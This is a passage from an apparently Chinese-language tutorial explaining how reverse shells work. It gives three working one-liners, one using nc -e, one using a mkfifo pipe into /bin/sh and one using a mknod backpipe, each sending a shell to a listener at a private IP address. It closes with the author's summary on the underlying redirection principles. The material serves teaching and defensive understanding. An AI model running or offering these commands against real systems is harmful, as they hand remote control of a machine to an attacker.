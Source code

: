 ```shell
nc -e /bin/sh 192.168.1.130 2333
```

但是如果是没有-e 选项是不是就不能实现了呢？当然不是，我们可以向下面这样

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.146.129 2333 >/tmp/f
```

**简单的解释：**

mkfifo 命令首先创建了一个管道，cat 将管道里面的内容输出传递给/bin/sh，sh会执行管道里的命令并将标准输出和标准错误输出结果通过nc 传到该管道，由此形成了一个回路

类似的命令：

```shell
mknod backpipe p; nc 192.168.1.130 2333 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```

## **0X05 总结**

反弹shell方法虽然常见，方法网上一搜就是一大把的代码，但是很少有人会去仔细斟酌反弹shell的原理，我也看到有类似的文章，但是可能是由 于篇幅原因并没有对文件描述符和重定向的部分做深入的讨论，导致解释语句的时候依然让人不好理解，于是这次我分成了两篇有所关联的文章彻底的剖析了一下， 个人认为这个原理是非常值得大家思考的。